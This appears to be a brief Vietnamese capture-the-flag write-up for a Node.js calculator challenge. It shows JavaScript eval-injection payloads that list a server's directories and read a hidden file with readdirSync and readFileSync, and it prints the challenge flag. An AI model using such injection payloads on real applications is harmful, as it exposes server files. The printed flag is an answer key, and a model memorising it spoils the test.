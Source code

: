 ![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/fb36eabe-b198-41d5-83fd-24f6e1a2c93b)

-__-" thì ra đây là 1 cái máy tính à

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/530f654e-dba7-4aa8-b37c-30be6c6494d3)

Sử dụng readdirSync ```res.end(require('fs').readdirSync('.').toString())``` để xem các thư mục các thư mục 

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/9bcb37e0-7831-4706-9584-d014b88cc3f0)

=> S3cr3tEv0d3f0ld3r

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/81ec9cd6-bea0-4411-a0ef-aff8c7830fa2)

=> Ev0d3fl4g

Dùng readFileSync ```res.end(require('fs').readFileSync('./S3cr3tEv0d3f0ld3r/Ev0d3fl4g').toString())``` để đọc file

![image](https://github.com/nguyenngocdung18/RootMe/assets/134156226/4aa71b5e-9be7-49e1-bce2-573045c2b3a5)

=> flag: ```D0n0tTru5tEv0d3B4nK!```
